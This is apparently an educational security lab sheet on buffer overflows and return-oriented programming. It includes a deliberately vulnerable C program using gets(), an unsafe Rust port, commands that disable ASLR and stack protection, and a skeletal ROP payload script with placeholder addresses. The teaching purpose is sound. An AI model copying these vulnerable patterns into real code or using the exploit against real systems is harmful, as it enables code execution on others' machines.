

# **Day 3 Lab – Defenses & Return-Oriented Programming**

## **Lab Objectives**

* Reproduce a buffer overflow exploit in C.
* Identify gadgets and build a minimal ROP chain.
* Port the vulnerable logic to `unsafe` Rust.
* Trace payload execution in `gdb`.
* Observe how ASLR, stack canaries, and DEP alter exploitation difficulty.

---

## **Step 0 – Lab Environment Prep**

This lab assumes:

* Linux machine (ASLR controllable via `/proc/sys/kernel/randomize_va_space`).
* `gcc`, `rustc`, `cargo`, `gdb` installed.
* `ROPgadget` installed:

  ```bash
  pip install ropgadget
  ```

> **Tip:** Do everything in a dedicated `day3-lab` folder.

---

## **Step 1 – Vulnerable C Program**

**`vuln.c`**

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void win() {
    system("/bin/sh");
}

void vuln() {
    char buf[64];
    printf("Enter some text: ");
    gets(buf); // <-- vulnerable: no bounds checking
}

int main() {
    vuln();
    printf("Goodbye!\n");
    return 0;
}
```

**Compile without stack protection and with executable stack:**

```bash
gcc -fno-stack-protector -z execstack -no-pie vuln.c -o vuln
```

---

## **Step 2 – Run & Inspect Memory Layout**

* **Disable ASLR** (for predictable addresses):

  ```bash
  echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
  ```
* Run and observe normal behavior:

  ```bash
  ./vuln
  ```
* Inspect memory mapping:

  ```bash
  cat /proc/$(pidof vuln)/maps
  ```

---

## **Step 3 – Finding Gadgets**

Use `ROPgadget` to find `pop rdi; ret` (for setting up function arguments):

```bash
ROPgadget --binary vuln | grep "pop rdi"
```

Note the address of `win()`:

```bash
nm vuln | grep win
```

---

## **Step 4 – Building a ROP Payload**

ROP chain:

1. `pop rdi; ret` — load pointer to `"/bin/sh"` into `rdi`.
2. Call `system()`.

**Exploit Script (Python)**:

```python
import struct

padding = b"A" * 72  # offset to RIP
pop_rdi = struct.pack("<Q", 0xdeadbeef) # replace with actual gadget address
bin_sh = struct.pack("<Q", next_addr)   # replace with "/bin/sh" address
system  = struct.pack("<Q", sys_addr)   # system() address

payload = padding + pop_rdi + bin_sh + system
print(payload)
```

Pipe into program:

```bash
python3 exploit.py | ./vuln
```

---

## **Step 5 – Porting to Unsafe Rust**

**`vuln.rs`**

```rust
use std::io::{self, Write};
use std::process::Command;

unsafe fn win() {
    Command::new("/bin/sh").status().unwrap();
}

unsafe fn vuln() {
    let mut buf = [0u8; 64];
    print!("Enter some text: ");
    io::stdout().flush().unwrap();
    // UNSAFE: direct pointer manipulation without bounds check
    let ptr = buf.as_mut_ptr();
    libc::gets(ptr as *mut i8);
}

fn main() {
    unsafe {
        vuln();
    }
    println!("Goodbye!");
}
```

**Compile:**

```bash
cargo new vuln_rust
cd vuln_rust
# Place code in src/main.rs
cargo build --release
```

> Use `RUSTFLAGS="-C overflow-checks=off"` if needed to disable checks.

---

## **Step 6 – Debugging with GDB**

Run in `gdb`:

```bash
gdb ./vuln
(gdb) disassemble win
(gdb) run
# Send payload and step through execution
```

---

## **Step 7 – Re-Enabling Defenses**

1. Turn ASLR back on:

   ```bash
   echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
   ```
2. Recompile with stack protector:

   ```bash
   gcc vuln.c -o vuln
   ```
3. Observe that exploitation fails (until mitigations are bypassed).

---

## **Reflection Prompts**

* How does ASLR specifically break our hardcoded ROP payload?
* How does a stack canary prevent the overwrite of return addresses?
* Why can ROP still work with DEP enabled?
* How might **Control Flow Integrity (CFI)** break our attack?

---

## **Deliverables for Self-Learners**

* Screenshot of successful shell spawn via ROP in C.
* Same result using the unsafe Rust version.
* Written answers to reflection prompts.
* (Bonus) A modified exploit that works with ASLR enabled via an info leak.

---

## **Mermaid Lab Flow**


